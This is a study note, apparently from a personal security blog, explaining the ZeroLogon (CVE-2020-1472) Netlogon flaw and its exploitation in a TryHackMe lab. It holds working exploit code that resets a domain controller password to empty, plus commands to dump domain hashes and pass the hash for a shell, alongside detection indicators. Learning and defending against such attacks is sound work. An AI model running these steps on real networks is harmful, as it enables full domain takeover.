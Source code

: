 ```yaml
---
title: "ZeroLogon"
date: 2022-05-03
draft: false
---
```


## NetLogon Protocol

- **Overview**
	- is an RPC interface *(Windows domain controllers)*
	- used 4 user and machine authentication *(e.g logging in to servers using NTLM, update password)*
	- available over TCP through a dynamic port set by the *portmapper* service OR through an SMB pipe on `445`
	- it uses a customized cryptographic protocol to let a client *(a domain-joined computer)* and server *(the domain controller)* prove to each other that they both know a shared secret *(i.e hash of the client's account password)*
- initial auth handshake
    - ![](/img/auth_handshake_zerologon.png)

## AES-CFB8 insecure use
- The cryptographic primitive both the client and server use to generate credential values is implemented in a function called `ComputeNetlogonCredential` *(takes an 8-byte input & performs transformasion w the secret esssion key)*
- To acomplish this it uses the [CFB8 (8-bit cypher feedback) mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#CFB)
    - ![](/img/aes_cfb8.png)
- Instead of generating the Initialization Vector *(IV)* randomly, the `ComputeNetlogonCredential` function **defines it as a fixed value which consits of 16 zero bytes** => this violates the requirments for using AES-CFB8 securely
- Ok but what could go wrong? Well: **for 1 in 256 keys, applying AESCFB8 encryption to an all-zero plaintext will result in all-zero ciphertext**
    - ![](/img/aes_cfb8_broken.png)

## Exploitation
![](/img/exploit_zerologon.png)
1. Spoofing the client credential
	- after exchanging challenges with a `NetrServerReqChallenge` call
	- a client authenticates by doing a `NetrServerAuthenticate3` call, which has a parameter `ClientCredential` *(that is computed by applying the `ComputeNetlogonCredential` to the client challenge)*
	- because we have control over the client challenge there's nothing stopping us to set it to 8 zeroes => for 1 in 256 session keys, the correct `ClientCredential` will also consist of 8 zeroes
	- session key will be different for every authentication attempt
	- computer accounts are not locked after invalid login attempt => we can try a bunch of times until we hit a key & authentication succeeds
2. Disabling signing & sealing
	- ok we can bypass the auth call, but we still have no idea what the value of the session key is
	- it becomess problematic due to Netlogon'ss transport encryption mechanism *(RPC signing & sealing)*, which uses this key but a different scheme than `ComputeNetlogonCredential`
	- luckily, signing & sealing is optional => so we can simply omit the flag in the `NetrServerAuthenticate3` call & continue
3. Spoofing a call
	- even when encryption is disabled, every call must contain a so-called `authenticator` value which is computed by applying `ComputeNetlogonCredential(w session key)` to the `ClientStoredCredential + Timestamp`
		- `ClientStoredCredential`: incrementing value maintained by the client & intialised to the same value as the `ClientCredential` we provided => will be 0
		- `Timestamp`: the current Posix time; server doesn't place many restriction on this value => simply pretend that it’s January 1st, 1970 = 0
	- `ComputeNetlogonCredential(0) = 0` => we can authenticate our first call by simply providing an all-zero authenticator & timestamp
4. Changing computer's AD password
	- we can leverage the `NetrServerPasswordSet2` call to set a new password for the client
		- password is not hashed but it is encrypted with the session key by using again `CFB8` with an all-zero IV
	- plaintext password structure in the Netlogon protocol consists of 516 bytes *(last 4 being the pass len)*
	- provide 516 zeroes => decryption to 516 zeroes => zero-length password *(setting empty passwords for a computer is not forbidden)* => can set an empty password for any computer in the domain
	- afterwards, we can simply set up a new Netlogon connection on behalf of this computer
	> **NOTE**: When changing a computer password in this way it is only changed in the AD. The targeted system itself will still locally store its original password.
5. From pass change to domain admin

### Lab
- **Perequistes**
	- check out the [POC released by secura](https://github.com/SecuraBV/CVE-2020-1472)
	- install [impacket]():
		```bash
		python3 -m pip install virtualenv
		python3 -m virtualenv impacketEnv  
		source impacketEnv/bin/activate
		pip install git+https://github.com/SecureAuthCorp/impacket
		```
	- setup a local Domain Name Controller *([THM zer0logon room](https://tryhackme.com/room/zer0logon))*
- Modify `zerologon_tester.py` to reset the domain controller password & run it: `python zerologon_tester.py DC01 10.10.45.187`
	```python
	...
	
	def build_new_pass_req(dc_handle, target_computer):
    # https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/14b020a8-0bcf-4af5-ab72-cc92bc6b1d81
    newPassRequest = nrpc.NetrServerPasswordSet2()
    newPassRequest['PrimaryName'] = dc_handle + '\x00'
    newPassRequest['AccountName'] = target_computer + '$\x00'
    newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    newPassRequest['ComputerName'] = target_computer + '\x00'

    # https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/76c93227-942a-4687-ab9d-9d972ffabdab
    auth = nrpc.NETLOGON_AUTHENTICATOR()
    auth['Credential'] = b'\x00' * 8
    auth['Timestamp']  = b'\x00' * 4
    newPassRequest['Authenticator'] = auth

    # consists of 516 bytes of random padding: junk + password + length of pass (last 4 bytes)
    newPassRequest['ClearNewPassword'] = b'\x00' * 516
    return newPassRequest

	def try_zero_authenticate(dc_handle, dc_ip, target_computer):
		...
		
		# It worked!
    	assert server_auth['ErrorCode'] == 0
    	server_auth.dump()
    	print(f"server challenge {serverChall}")

    	try:
        	# Trigger password reset
        	print(f"Attempting password reset on {target_computer}...")
			newPassReq = build_new_pass_req(dc_handle, target_computer)
			res        = rpc_con.request(newPassReq)
			res.dump()
		except Exception as e:
        	print(e)
		return rpc_con

	...
	```
- Dump hashes with [impacket's secretsdump.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py): `python secretsdump.py -just-dc HOLOLIVE/DC01\$@10.10.45.187`
- Pop shell w [wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) by passing the hash: `python wmiexec.py HOLOLIVE/Administrator@10.10.45.187 -hashes aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568`

## Packet Analysis
TODO

## Mitigation & Detection

- many tries to authenticate unssuccessfully
- zero key stream in auth netlogon pkgs
- ssign & sseal flags are disabled
- timesstamp in auth value is 0
- choosing cipher suite of AES-CFB8

wirehark rule to detect it *(based on timestamp, negotiation opts, challenge & iv?)*

---

## References
- [Zerologon (CVE-2020-1472): An Unauthenticated Privilege Escalation to Full Domain Privileges](https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/)
- [Zerologon Attack Explained Technical - CVE-2020-1472](https://www.youtube.com/watch?v=EzVmGQr2IFw)
- [Whitepaper: secura](https://www.secura.com/uploads/whitepapers/Zerologon.pdf)
